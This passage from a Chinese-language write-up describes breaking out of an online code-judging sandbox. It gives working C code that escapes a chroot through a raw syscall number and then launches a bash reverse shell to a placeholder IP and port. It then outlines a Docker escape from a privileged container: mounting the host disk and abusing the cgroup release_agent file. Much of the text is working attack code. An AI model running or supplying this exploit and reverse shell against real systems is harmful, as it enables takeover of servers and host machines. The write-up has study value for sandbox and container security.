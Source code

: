 ```c
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/user.h>
#include <sys/prctl.h>
#include <sys/wait.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <unistd.h>
#include<sys/mman.h>
#include<string.h>

void change_root(void)
{
  chdir("/");
  mkdir("abc", 0755);
  syscall((unsigned int)1073741985, (unsigned long)"abc"); // chroot
  for(int i=0;i<20;++i)chdir("..");
  syscall((unsigned int)1073741985, (unsigned long)".");
}
 
int main()
{
  change_root();
    printf("Running ps with system\n");
    system("/bin/bash -c \"/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1\"");
    printf("ps Done\n");
    return 0;
}
```

在提交窗口依次运行payload代码即可获取反弹shell。ps：可能由于demo中对于代码执行时间有所限制，直接利用EXP可能会造成反弹shell时间非常短（只有不到1s），可以通过自定义题目代码执行时间等等方法去绕过，这里不过多赘述。

![image-20210819130843286](assets/image-20210819130843286.png)

## Docker逃逸

挑战背景：即使我们通过前两个挑战得到了反弹shell，但是通过观察主机名我们可以发现实际上这个shell是docker内部的。我们还需要逃逸出docker才能得到主机的shell。

漏洞分析：因为评测机需要进行一些Linux内核的cgroup优化评测过程（例如直接限制运行时间和内存），因此允许容器内的root拥有外部物理机的root权限，而此前在容器内的root用户只有外部物理机普通用户的权限。所以攻击思路为：利用mount命令在Linux系统盘下挂载一个新建的文件夹使容器内可以直接访问主机文件，创建 `release_agent` 文件并通过创建子cgroup得以快速杀死cgroup内所有进程并触发 `release_agent` ，把攻击代码写入 `release_agent` 文件内即可。

>   使用特权模式启动容器后（docker run --privileged），Docker容器被允许可以访问主机上的所有设备、可以获取大量设备文件的访问权限、并可以执行mount命令进行挂载。
>
>   当控制使用特权模式的容器时，Docker管理员可通过mount命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

>   cgroups(Control Groups) 是 linux 内核提供的一种机制，**这种机制可以根据需求把一系列系统任务及其子任务整合(或分隔)到按资源划分等级的不同组内，从而为系统资源管理提供一个统一的框架**。简单说，cgroups 可以限制、记录任务组所使用的物理资源。本质上来说，cgroups 是内核附加在程序上的一系列钩子(hook)，通过程序运行时对资源的调度触发相应的钩子以达到资源追踪和限制的目的。
